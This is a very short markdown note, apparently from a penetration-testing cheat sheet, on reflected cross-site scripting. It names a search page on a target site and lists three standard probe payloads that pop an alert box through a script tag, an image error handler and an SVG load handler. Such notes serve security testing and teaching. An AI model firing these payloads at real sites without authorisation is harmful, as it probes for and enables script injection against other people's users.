 # Cross-Site Scripting (XSS)
## Reflected XSS
1. ```https://www.target.net/inc.search_ney.php```>```<script>alert()</script>```,```<img src=x onerror=alert()>```,```<svg onload=alert()>```
